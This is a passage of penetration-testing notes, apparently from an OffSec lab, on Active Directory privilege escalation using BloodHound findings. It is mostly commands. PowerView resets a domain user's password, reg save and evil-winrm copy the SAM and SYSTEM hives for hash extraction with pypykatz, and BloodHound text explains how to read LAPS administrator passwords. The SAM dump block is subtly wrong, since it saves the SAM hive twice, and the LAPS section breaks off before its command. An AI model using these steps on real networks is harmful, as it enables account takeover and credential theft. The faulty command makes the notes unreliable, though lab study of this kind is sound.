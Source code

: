  You could then proceed to change the password of the user whose credentials you have as shown in this [code block](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05.md) if you want to wmi-exec into their account.

# ForceChangePassword

Requires `PowerView.ps1` module.

```nasm
$newpass = ConvertTo-SecureString 'Password1234!' -AsPlainText -Force
Set-DomainUserPassword -Identity Smith -AccountPassword $newpass
```

# SeBackupPriv

Tutorial derived from [here](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/). Basically make copies of the SAM and SYSTEM files from the registry and extract the creds with pypykatz.

```abap
#evil-winrm
reg save hklm\sam c:\Temp\sam
reg save hklm\sam c:\Temp\system
download C:\Temp\sam
download C:\Temp\system

$ pypykatz registry --sam sam system
```

# ReadLAPSPassword

### Bloohound help menu:

The user FMCSORLEY@HUTCH.OFFSEC has the ability to read the password set by Local Administrator Password Solution (LAPS) on the computer HUTCHDC.HUTCH.OFFSEC.

The local administrator password for a computer managed by LAPS is stored in the confidential LDAP attribute, "ms-mcs-AdmPwd".

To abuse this privilege with PowerView's Get-DomainObject, first import PowerView into your agent session or into a PowerShell instance at the console. You may need to authenticate to the Domain Controller as FMCSORLEY@HUTCH.OFFSEC if you are not running a process as that user. To do this in conjunction with Get-DomainObject, first create a PSCredential object (these examples comes from the PowerView help documentation):

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
```

Then, use Get-DomainObject, optionally specifying $Cred if you are not already running a process as FMCSORLEY@HUTCH.OFFSEC:
